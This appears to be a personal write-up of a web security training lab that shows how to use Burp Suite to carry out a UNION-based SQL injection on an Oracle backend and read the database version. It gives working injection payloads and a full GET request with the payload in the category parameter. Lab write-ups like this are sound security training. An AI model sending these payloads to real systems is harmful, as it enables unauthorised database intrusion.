


Lab: SQL injection attack, querying the database type and version on Oracle

Solution: 
    
    1. Use Burp Suite to intercept and modify the request that sets the product category filter.

    2. Determine the number of columns that are being returned by the query and which columns contain text data. Verify that the query is returning two columns, both of which contain text, using a payload like the following in the category parameter:
    '+UNION+SELECT+'abc','def'+FROM+dual--

    3. Use the following payload to display the database version:
    '+UNION+SELECT+BANNER,+NULL+FROM+v$version--

Steps to Solve: [Before solving the lab use foxyproxy extension and add Burp Suite proxy]

    1. Open Burp Suite and access the LAB. 
    2. Connect the proxy and turn on intercept.
    3. Select a catergory then reload the page then send the request to the repeater and turn off intercept. 
    4. Then modify the category query 
            GET /filter?category=Pets'+union+select+banner,+null+from+v$version--
        and send it. 
    5. Now copy the URL and paste it on the browser. 

